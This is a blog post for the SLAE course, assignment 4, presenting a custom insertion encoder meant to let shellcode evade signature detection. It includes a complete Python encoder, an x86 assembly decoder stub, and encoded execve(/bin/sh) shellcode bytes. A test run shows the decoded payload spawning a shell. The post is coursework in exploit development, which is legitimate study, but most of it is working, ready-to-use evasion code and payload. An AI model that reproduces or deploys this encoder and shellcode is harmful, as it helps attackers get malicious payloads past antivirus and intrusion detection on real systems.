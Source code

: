 ```yaml
---
title:  "[SLAE 4] Custom Encoding Scheme"
---
```


![Logo](/assets/images/tux-root.png)

## Custom encoding scheme
For the 4th assignment of [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/), I've made a custom encoding scheme, with the same purpose as the insertion encoder: *__avoid signature detection by inserting garbage bytes into the shellcode__*.

The encoding scheme works as follows: we start from a working shellcode and insert garbage blocks, containing a random garbage byte and the offset to the next garbage block. The distance between the garbage blocks is a random value between 2 modifiable limits. In this way we can control the final length of the shellcode and the amount of garbage inserted.

The encoded shellcode will look like this:
```
---------------------------------------------------------
| n0 | . . .| b1 | n1 | . . . . .| b2 | n2 | . . . |END |
---------------------------------------------------------

ni  - next garbage byte position
bi  - garbage byte 
END - END of the shellcode marker
```

The encoding is done in a Python script:
```python
#!/usr/bin/python
'''
    Python Insertion Encoder   
'''
 
import random
 
# Execve-stack shellcode - execve(/bin/sh,..)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
encoded = ""
 
idx = 1
 
# Control  the frequency of garbage through a displacement
MIN_DEP = 3     # min number of shellcode bytes after which to inject garbage
MAX_DEP = 4     # max ...
dep = random.randint(MIN_DEP, MAX_DEP)
n = idx + dep
encoded += '\\x%02x' % n
END = "\\xf0\\x0d"
 
for x in bytearray(shellcode) :
    if idx == n: 
        # We have reached an insertion point
        dep = random.randint(MIN_DEP, MAX_DEP)
        n = idx + dep
 
        encoded += '\\x%02x' % random.randint(1,255)
        encoded += '\\x%02x' % n
        idx += 2
     
    # Add a shellcode byte
    encoded += '\\x%02x' % x
    idx += 1
 
encoded += END
 
print encoded
# Print in nasm friendly form
print encoded.replace("\\x", ",0x")[1:]
 
print 'Initial len: %d, encoded len: %d' % (len(shellcode), 
    len(encoded)/4)
```

The decoding is done in the assembly shellcode: 
```c
global _start   

section .text
_start:
 jmp short call_shellcode

decoder:
 pop esi                     ; beginning of the encoded shellcode
 lea edi, [esi]              ; shellcode decoded in place. Edi - dest pointer
 xor eax, eax            
 mov al, byte [esi]          ; position of next garbage byte
 xor ebx, ebx
    push 1                      ; index into the shellcode
    pop ecx

decode: 
    cmp ecx, eax
    jnz short shellcode_byte    ; shellcode byte found 
    add ecx, 2                  ; garbage byte found. Advance 2 bytes
    mov al, byte [esi + eax + 1]; position of next garbage byte    
shellcode_byte:                 ; byte part of real shellcode
 mov bl, byte [esi + ecx]
 mov byte [edi], bl
 inc edi                     ; advance destination
 inc ecx                     ; advance source
 cmp byte [esi + ecx], 0xf0  ; check for END marker
    jnz decode
    cmp byte [esi + ecx + 1], 0x0d
    jnz decode
    jmp esi                     ; shellcode decoded in-place. Jump to it



call_shellcode:

 call decoder
 EncodedShellcode: db 0x04,0x31,0xc0,0x50,0x06,0x08,0x68,0x2f,0x15,0x0b,0x2f,0x12,0x0e,0x73,0x85,0x11,0x68,0x4e,0x14,0x68,0x96,0x18,0x2f,0x62,0xd8,0x1c,0x69,0x6e,0xf9,0x20,0x89,0xe3,0xa9,0x23,0x50,0x6d,0x26,0x89,0x60,0x29,0xe2,0x0e,0x2d,0x53,0x89,0x3b,0x30,0xe1,0xaa,0x34,0xb0,0x0b,0x55,0x37,0xcd,0xe2,0x3b,0x80,0xf0,0x0d
```

And now to test this:
* Encode the _`execve-stack`_ shellcode using the Python script above.
* Disassemble and examine the encoded shellcode
* Define the shellcode bytes at the end of the assembly decoder
* Assemble
* Test using a C program which executes the payload 

```bash
$ ./custom-encoder.py 
\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d
0x05,0x31,0xc0,0x50,0x68,0xb1,0x08,0x2f,0x58,0x0c,0x2f,0x73,0x71,0x10,0x68,0x68,0x88,0x14,0x2f,0x62,0x42,0x17,0x69,0x6a,0x1a,0x6e,0xba,0x1d,0x89,0xf5,0x21,0xe3,0x50,0xe0,0x25,0x89,0xe2,0xaf,0x29,0x53,0x89,0x83,0x2d,0xe1,0xb0,0x33,0x30,0x0b,0x1a,0x33,0xcd,0x66,0x36,0x80,0xf0,0x0d
Initial len: 25, encoded len: 56

$ echo -ne "\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d" | ndisasm -b 32 -
00000000  0531C05068        add eax,0x6850c031
00000005  B108              mov cl,0x8
00000007  2F                das
00000008  58                pop eax
00000009  0C2F              or al,0x2f
0000000B  7371              jnc 0x7e
0000000D  106868            adc [eax+0x68],ch
00000010  88142F            mov [edi+ebp],dl
00000013  624217            bound eax,[edx+0x17]
00000016  696A1A6EBA1D89    imul ebp,[edx+0x1a],dword 0x891dba6e
0000001D  F5                cmc
0000001E  21E3              and ebx,esp
00000020  50                push eax
00000021  E025              loopne 0x48
00000023  89E2              mov edx,esp
00000025  AF                scasd
00000026  295389            sub [ebx-0x77],edx
00000029  832DE1B033300B    sub dword [dword 0x3033b0e1],byte +0xb
00000030  1A33              sbb dh,[ebx]
00000032  CD66              int 0x66
00000034  3680F00D          ss xor al,0xd

$ ./compile.sh 
  [+] Assembling egghunter
  [+] Linking egghunter
\xeb\x2d\x5e\x8d\x3e\x31\xc0\x8a\x06\x31\xdb\x6a\x01\x59\x39\xc1\x75\x07\x83\xc1\x02\x8a\x44\x06\x01\x8a\x1c\x0e\x88\x1f\x47\x41\x80\x3c\x0e\xf0\x75\xe8\x80\x7c\x0e\x01\x0d\x75\xe1\xff\xe6\xe8\xce\xff\xff\xff\x04\x31\xc0\x50\x06\x08\x68\x2f\x15\x0b\x2f\x12\x0e\x73\x85\x11\x68\x4e\x14\x68\x96\x18\x2f\x62\xd8\x1c\x69\x6e\xf9\x20\x89\xe3\xa9\x23\x50\x6d\x26\x89\x60\x29\xe2\x0e\x2d\x53\x89\x3b\x30\xe1\xaa\x34\xb0\x0b\x55\x37\xcd\xe2\x3b\x80\xf0\x0d
  [+] House cleaning
  [+] Done!
$ ./shellcode
Shellcode Length:  112 bytes
$ whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
